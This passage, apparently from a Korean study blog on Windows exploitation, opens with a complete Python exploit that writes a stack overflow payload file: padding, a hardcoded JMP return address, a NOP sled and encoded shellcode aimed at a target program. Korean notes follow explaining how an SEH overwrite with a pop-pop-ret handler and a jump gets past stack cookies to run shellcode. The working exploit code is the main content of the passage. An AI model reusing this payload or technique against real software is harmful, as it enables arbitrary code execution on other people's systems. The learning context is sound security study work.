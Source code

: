 #### 2. Exploit Code
```python
# reader_aslr.exe exploit
import struct

print("[+] Create text file...")
NOP = b"\x90" * 100

SHELLCODE = (
        b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
        b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
        b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
        b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
        b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
        b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
        b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
        b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
        b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
        b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
        b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
        b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
	)

print("Shellcode Length :", len(SHELLCODE))
DUMMY = b"A" * 500 + b"\xCC"*4 + b"A"*4
DUMMY2 = b"\x90" * 28      # This is for stack use
JMP = struct.pack('<L',0x75184967)
contents = DUMMY + JMP + DUMMY2 + SHELLCODE

f = open("test.txt", "wb")
f.write(contents)
f.close()
print("[+] Done !!")

```

마찬가지로 `xCCCCCCCC`를 버퍼의 끝에 삽입해 주었다.

---

### # SEH Overwrite

윈도우 스택 보호 기법중 스택쿠키 기법이 있다. 이는 SFP위에 랜덤한 쿠키값을 두어 함수 종료부에 이 값이 변조되었는지 검사하는 것이다. 이를 우회하기 위해 SEH Overwrite 기법을 사용할 수 있다.

SEH의 구조에 대해서 좀 더 깊게 확인해보고 싶어서 [리버싱 핵심 원리]의 SEH 부분을 정독한 후 실습을 진행하였다. 간단하게 설명하자면 윈도우에서 예외가 발생할 때 예외처리 로직이 수행되는데, 각 예외처리에 대한 로직들(handler)이 연결리스트의 형태로 존재한다. 연결리스트의 요소는 next와 handler로 구성되어 있고 스택에 저장된다. 연결리스트의 첫 요소가 제일 최근에 추가한 요소가 되고, 해당 예외처리가 해결이 될 때까지 연결리스트를 참조한다.

예외가 발생하면 첫번째 handler주소의 코드를 실행한다. 이 때, 두번째 파라미터(`$ebp - 0x8`)로 현재 요소의 주솟값이 들어간다. 따라서 첫번째 handler의 주소가 `pop; pop; retn;`을 가리키고 첫번째 next부분을 jmp로 바꾸면 쉘코드를 실행시킬 수 있다.

=> 이해가 안갈 때는 책을 다시 보자.. 나도 헷갈림.
